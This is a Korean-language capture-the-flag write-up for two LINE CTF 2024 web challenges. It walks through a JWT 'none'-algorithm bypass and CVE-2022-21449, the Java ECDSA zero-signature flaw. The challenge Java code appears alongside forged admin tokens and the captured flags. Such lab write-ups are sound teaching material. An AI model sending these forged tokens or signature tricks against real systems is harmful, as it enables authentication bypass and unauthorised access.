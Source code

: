 ```yaml
---
title: "LINE CTF 2024"
date: 2024-03-26 +0900
categories: [WRITE-UP]
tags: ['writeup', 'line ctf', '2024']
img_path: /assets/img/posts/
image:
    path: "linectf2024writeup/Untitled.png"
    alt: "Line CTF"
    lqip: "linectf2024writeup/Untitled.png"
---
```



## jalyboy-baby [web]
- _Solver : 428_
- _Score : 100_

### 1. Abstract

- JWT None Algorithm Attack

### 2. Analysis

- 문제 페이지에서는 j 라는 파라미터를 통해 JWT 값을 전송하고 있음
- 파라미터로 전송받은 JWT 값을 파싱 및 `claims` 에 저장
- `claims` 에서 `getSubject()` 를 통해 `sub` 값을 비교하여 분기한다.
- `sub` 값이 `admin` 이라면 flag 값을 model에 포함시킨다.

```java
@Controller
public class JwtController {

    public static final String ADMIN = "admin";
    public static final String GUEST = "guest";
    public static final String UNKNOWN = "unknown";
    public static final String FLAG = System.getenv("FLAG");
    Key secretKey = Keys.secretKeyFor(SignatureAlgorithm.HS256);

    @GetMapping("/")
    public String index(@RequestParam(required = false) String j, Model model) {
        String sub = UNKNOWN;
        String jwt_guest = Jwts.builder().setSubject(GUEST).signWith(secretKey).compact();

        try {
            Jwt jwt = Jwts.parser().setSigningKey(secretKey).parse(j);
            Claims claims = (Claims) jwt.getBody();
            if (claims.getSubject().equals(ADMIN)) {
                sub = ADMIN;
            } else if (claims.getSubject().equals(GUEST)) {
                sub = GUEST;
            }
        } catch (Exception e) {
//            e.printStackTrace();
        }

        model.addAttribute("jwt", jwt_guest);
        model.addAttribute("sub", sub);
        if (sub.equals(ADMIN)) model.addAttribute("flag", FLAG);

        return "index";
    }
}
```
{: file="JwtController.java" }

### 3. Exploit

JWT 값은 `j` 파라미터를 통해 보내줄 수 있다. 따라서 이 JWT 값을 다시 생성해서 보낼 수 있다.

```json
{
	"alg" : "None"
}

{
	"sub" : "admin"
}
```

현재 JWT 알고리즘은 HS256을 사용하고 있지만, JWT를 생성할 수 있으므로 `alg` 를 `None` 으로 변경하여 서명 검증을 우회할 수 있다.  `sub` 가 admin이 되어 flag를 얻을 수 있다.

```plain
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdWIiOiJhZG1pbiJ9.
```

![Untitled](linectf2024writeup/Untitled%201.png)

> Flag : `LINECTF{337e737f9f2594a02c5c752373212ef7}`
<br>

## jalyboy-jalygirl [web]
- _Solver : 189_
- _Score : 100_

### 1. Abstract

- CVE-2022-21449

### 2. Analysis

jalyboy-baby 문제와 대부분 같지만, 서명 알고리즘은 `ES256` 을 사용하고 있다. 

```java
@Controller
public class JwtController {

    public static final String ADMIN = "admin";
    public static final String GUEST = "guest";
    public static final String UNKNOWN = "unknown";
    public static final String FLAG = System.getenv("FLAG");
    KeyPair keyPair = Keys.keyPairFor(SignatureAlgorithm.ES256);

    @GetMapping("/")
    public String index(@RequestParam(required = false) String j, Model model) {
        String sub = UNKNOWN;
        String jwt_guest = Jwts.builder().setSubject(GUEST).signWith(keyPair.getPrivate()).compact();

        try {
            Jws<Claims> jwt = Jwts.parser().setSigningKey(keyPair.getPublic()).parseClaimsJws(j);
            Claims claims = (Claims) jwt.getBody();
            if (claims.getSubject().equals(ADMIN)) {
                sub = ADMIN;
            } else if (claims.getSubject().equals(GUEST)) {
                sub = GUEST;
            }
        } catch (Exception e) {
//            e.printStackTrace();
        }

        model.addAttribute("jwt", jwt_guest);
        model.addAttribute("sub", sub);
        if (sub.equals(ADMIN)) model.addAttribute("flag", FLAG);

        return "index";
    }
}
```
{: file="JwtController.java" }


### 3. Exploit

해당 문제는 JAVA의 ESDSA 서명 검증 알고리즘에 대한 구현 오류로 인해 취약점이 발생한다. 서명 검증에 필요한 r, s 의 값이 0인지 검증을 하지 않기 때문에 0인 서명 값을 생성할 수 있고, 이를 통해 모든 공개키에 대해서 항상 유효한 서명이 된다.

```java
eyJhbGciOiJFUzI1NiJ9.eyJzdWIiOiJhZG1pbiJ9.MAYCAQACAQA=
```

![Untitled](linectf2024writeup/Untitled%202.png)

> Flag: `LINECTF{abaa4d1cb9870fd25776a81bbd278932}`
> 

### Reference

> [https://neilmadden.blog/2022/04/19/psychic-signatures-in-java/](https://neilmadden.blog/2022/04/19/psychic-signatures-in-java/)

> [https://www.linkedin.com/pulse/elliptic-curve-digital-signature-algorithm-flaw-mohammed-janbar/](https://www.linkedin.com/pulse/elliptic-curve-digital-signature-algorithm-flaw-mohammed-janbar/)
